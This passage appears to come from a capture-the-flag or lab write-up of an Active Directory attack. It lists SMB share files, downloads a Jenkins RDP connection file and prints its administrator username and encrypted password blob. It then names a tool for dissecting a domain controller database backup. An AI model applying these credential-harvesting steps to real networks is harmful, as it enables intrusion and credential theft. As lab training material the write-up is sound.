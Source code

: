     I've included a backup of the domain controller before resetting all passwords after the last breach

so noone gonna work here cauze of password changing.

## THIRD HOST DONE

But we have an access rn on smb shares folders :D


![alt text](../assets/images/Screenshot_2024-07-04_22_41_20.png)

    # ls
    drw-rw-rw-          0  Fri Apr 12 21:32:21 2024 .
    drw-rw-rw-          0  Wed Apr 10 20:58:10 2024 ..
    -rw-rw-rw-     101234  Fri Apr 12 21:32:11 2024 AppData_Roaming_Backup.zip
    -rw-rw-rw-       1077  Fri Apr 12 00:08:35 2024 jenkins.rdg
    # get jenkins.rdg
    # get AppData_Roaming_Backup.zip

I grab them on JENKINS folder.

    ➜  kelndathu cat jenkins.rdg
        <profileName scope="Local">KLENDATHU\administrator</profileName>
        <userName>administrator</userName>
        <password>AQAAANCMnd8BFdERjHoAwE/Cl+sBAAAABS0Gmx4U2k+............../XSIlS/pMf/DBn3EHb8xEha6u1f/CMguhQAAACVsld41QgTZXMtLDfgrswQaShAxQ==</password>


We all gonna use here [ntdissector](https://github.com/synacktiv/ntdissector) from synacktiv.

after install it we need to Active Directory folder before we installed from ssh.
